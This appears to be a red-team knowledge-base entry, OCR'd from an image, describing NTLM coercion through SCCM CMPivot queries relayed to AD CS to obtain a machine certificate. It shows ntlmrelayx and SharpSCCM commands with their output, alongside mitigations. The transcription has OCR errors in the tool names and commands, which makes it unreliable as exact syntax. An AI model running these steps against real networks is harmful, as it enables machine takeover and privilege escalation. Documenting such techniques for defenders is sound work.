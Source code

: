 # COERCE-1

## Description
NTLM coercion leveraging CMPivot queries

## MITRE ATT&CK TTPs
- [T1187] (https://attack.mitre.org/techniques/T1187/) - Forced Authentication

## Requirements
- Run CMPivot permission on the Collection
- Read permission on Inventory Reports
- Read permissions on Devices and Collections.

## Summary
CMPivot queries can be used to coerce SMB authentication from SCCM client hosts

A user with CMPivot query execution permissions can trigger a query pointing to a UNC path. This will coerce the SYSTEM account of the query target to authenticate against the resource at the UNC path.

SMB authentication can be relayed to a CA in the environment. If a vulnerable template exists then a certificate that allows for authentication can be obtained.

## Impact
This technique allows for taking over a machine object and privilege escalation within Active Directory environments.

## Defensive IDs
Some recommendations:

Disable NTLM where possible
Enforce Extended Protection for Authentication (EPA) along with SMB and LDAP signing. 
Prioritize Kerberos authentication and harden services like ADCS and IIS to block common relay paths.

## Examples
### CMPivot Coerce

Setup a listening relay server such as ntlmrelayx:
```
root@WORKSTATION$ proxychains python3 ntmrelayx.py -debug -smb2support --no-http-server \
-target http://10.0.0.6/certsrv/certrqus.asp --adcs —template "Machine"

[proxychains] DLL init: proxychains-ng 4.14
Impacket vo.10.0 - Copyright 2022 SecureAuth Corporation
[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket-0.10.0-py3.9.egg/impacket
[+] Protocol Client SMB loaded..
[+] Protocol Protocol
```

Trigger a FileContent query. Here we use SharpSCCMs admin-service command against the '\\CLIENT1\test' UNC path:
```
C: \Users\LabAdmin\Desktop\shared>SharpSCM.exe invoke admin-service -q FileContent('\\CLIENT1\test') - r 16777220 -d 3

[+] Querying the local WMI repository for the current management point and site code
[+] Connecting to \\127.0.0.1\root\CCM
[+] Current management point: CM1. corp.contoso.com
[+] Site code: CHQ
[+] Sending query to AdminService
[+] URL: "https://CM1.corp.contoso.com/AdminService/v1.0/Device(16777220)/AdminService-RunCMPivot"
[!] Received a 400 ('Bad request') response from the API. Falling back to SMS Provider method
[+] Querying the local WMI repository for the current management point and site code
[+] Connecting to \\127.0.0.1\root\CCM
[+] Current management point: CM1.corp.contoso.com
[+] Site code: CHO
[+] Using WMI provider: M1. corp. contoso.com
[+] Connecting to ||CM1. corp. contoso. com\root\SMS|site_CHQ
[+] Fallback Method call succeeded
[+] Attempt 1 of 5: Checking for query
```

Wait for the relay server to do it's job and get us that b64 certificate blob:
```
[*] Servers started, waiting for connections
[*] SMBD- Thread-4: Received connection from 192.168.1.14, attacking target http://10.0.0.6
[proxychains] Strict chain ... 127.0.0.1:9191 ... 10.0.0.6:80 0K
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.0.0.6 as CORP/GW1$ SUCCEED
[*] No more targets
[*] SMBD-Thread-6: Connection from 192.168.1.14 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate..
[*] No more targets
[*] SMBD- Thread -7: Connection from 192.168.1.14 controlled, but there are no more targets left!
[*] GOT CERTIFICATE! ID 3
[*] Base64 certificate of user GW1$:
MIIRFQBAZCCEM8GCSqGSIb3DQEHAaCCEMAEghC8MIIQuDCCBu8GCSqGSb3DQEHBqCCBuAwggbcAgEAMIIG1QYJKoZIhvcNAQ
```

## References
- Microsoft, [Changes to CMPivot - ConfigurationManager] (https://learn.microsoft.com/en-us/intune/configmgr/core/servers/manage/cmpivot-changes)
- Chris Thompson, [Coercing NTLM Authentication from SCCM] (https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Chris Thompson, [Relaying NTLM Authentication from SCCM client] (https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)
